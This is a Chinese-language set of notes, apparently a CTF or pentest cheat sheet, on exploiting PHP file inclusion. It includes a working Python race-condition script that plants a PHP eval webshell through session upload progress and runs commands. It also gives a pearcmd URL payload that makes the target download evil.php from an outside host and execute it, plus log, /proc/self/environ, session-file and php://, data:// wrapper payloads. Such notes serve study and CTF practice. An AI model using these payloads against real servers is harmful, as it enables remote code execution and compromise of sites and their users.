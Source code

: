 ## 文件包含

## 本地文件包含



### 利用php_session upload process

> **Note**: 此特性自 PHP 5.4.0 后可用。 

通过翻阅php文档我们了解到

当 [session.upload_progress.enabled](https://www.php.net/manual/zh/session.configuration.php#ini.session.upload-progress.enabled) INI 选项开启时，PHP 能够在每一个文件上传时监测上传进度。 这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态 

当一个上传在处理中，同时POST一个与INI中设置的[session.upload_progress.name](https://www.php.net/manual/zh/session.configuration.php#ini.session.upload-progress.name)同名变量时，上传进度可以在[$_SESSION](https://www.php.net/manual/zh/reserved.variables.session.php)中获得。 当PHP检测到这种POST请求时，它会在[$_SESSION](https://www.php.net/manual/zh/reserved.variables.session.php)中添加一组数据, 索引是 [session.upload_progress.prefix](https://www.php.net/manual/zh/session.configuration.php#ini.session.upload-progress.prefix) 与 [session.upload_progress.name](https://www.php.net/manual/zh/session.configuration.php#ini.session.upload-progress.name)连接在一起的值。 

会生成像这样的值

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200804193825.png)

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200804193935.png)

php在文件上传结束后会删除该SESSION（ `session.upload_progress.cleanup=on`），如果我们知道session文件的存储位置（linux:`/temp/sess_PHPSESSION`）我们就可以通过上传大文件+条件竞争来命令执行

利用脚本：



```
import io
import requests
import threading
sessid = 'TGAO'
data = {"cmd":"system('whoami');"}
def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( 'http://127.0.0.1:5555/test56.php', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post('http://127.0.0.1:5555/test56.php?file=session/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[+++++++++++++]retry")
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in xrange(1,30): 
            threading.Thread(target=write,args=(session,)).start()

        for i in xrange(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
```





### 利用segment fault

php 7.0.33 string.strip_tags 会出现segment fault



string.strip_tags超大文件会出现segment fault

### 常配合文件上传利用

### 包含日志

目标:web日志,ssh日志

http://192.168.1.105/test.php?file=/var/log/auth.log&c=ls

利用方式:

- GET方法
- http头的Authorization字段(工具tamper data)

Authorization会将证书base64编码后发送

> `Authorization` 是用来告知服务器，用户代理的认证信息（证书值）。通常，想要通过服务器认证的用户代理会在接受到返回的401状态码响应后，把首部字段 `Authorization` 加入请求中。公众缓存在接受到含有 `Authorization` 首部字段的请求时的操作处理会略有差异。

![](http://ww1.sinaimg.cn/large/006pWR9agy1g5qaa0m4e6j30kl0d73z7.jpg)



### 针对/proc/self/environ的攻击方法



- 攻击原理

​       /proc/self/environ是Linux系统下的环境变量文件，用于保存系统的一些变量。访问

者可通过修改浏览器的User Agent信息插入自己的内容到该文件，利用这一特性将php代码写入/proc/self/environ文件中，然后在有LFI漏洞的注入点中写入该文件的正确路径及文件名，而后结合php的路径截断特性来进行文件包含漏洞利用。

- 限制条件

平台限制：只能应用于Linux系统下；

访问者（HTTP服务器的启动用户）需要具有对/proc/self/environ文件具有读写权限；

### 针对session文件的攻击方法

- 攻击原理

php session文件是php的session会话机制产生的文件，一般用于用户身份认证，会话状态管理等等。该文件一般存储在/tmp/(Linux)，/var/lib/php/sessison/(Linux)，c:\windows\temp\(Windows)等目录下。当知道session存储路径时，我们可通过firefox的firebug插件查看当前SESSION ID（session文件名格式为：sess_SESSIONID），然后在有LFI漏洞的注入点中写入session文件的路径及文件名，而后结合php的路径截断特性来进行文件包含漏洞利用。

- 限制条件

目标网站必须存在session文件；

访问者可以进行session文件部分内容的控制，以此来构造恶意代码； （如接收useragent等可控制内容，由于session加密方式或安全加密措施难以知悉，还可能会进行md5加密等，成功包含一句可执行的话难度很大）

### php伪协议

file://(访问本地文件系统)、php://filter(对本地文件系统进行读写)；php://input



php://filter/read=/resource=

php://filter/read=convert.base64-dncode/resource=

php://filter/read=convert.base64-encode/resource=

zip://filename.zip#dir/file

phar://

利用`php://filter`进行文件包含时，最后一条链是无效的也会读取

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200805215049.png)



### 利用自带php直接RCE

测试版本：php 7.4.8，利用条件：

1. register_argc_argv=On
2. 能出网

```
http://eci-2zeguuukox00jv0u113l.cloudeci1.ichunqiu.com/?list+install+--installroot+/tmp/+http://ccreater.top:60006/evil.php++++++++++++++$&f=pearcmd&
http://eci-2zeguuukox00jv0u113l.cloudeci1.ichunqiu.com/?f=/tmp/tmp/pear/download/install
```





## 远程文件包含

### 限制条件

1. PHP的allow_url_include需要为On（如果没有allow_url_include这一项则只需      将allow_url_fopen设置为On即可）；（在php.ini中配置）
2. nPHP的版本限制；（php5.2.0及以上版本）

### php://input

需要开启allow_url_include开关

### data://

使用data://协议执行php命令，格式为：data://text/plain,php语句

data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4

allow_url_include和allow_url_fopen

### php://filter

常见利用方式：php://filter/read=convert.base64-encode/resource=index.php







## 好文章

 [k0rz3n文件包含漏洞](https://www.k0rz3n.com/2018/11/20/一篇文章带你理解漏洞之 PHP 文件包含漏洞/) 

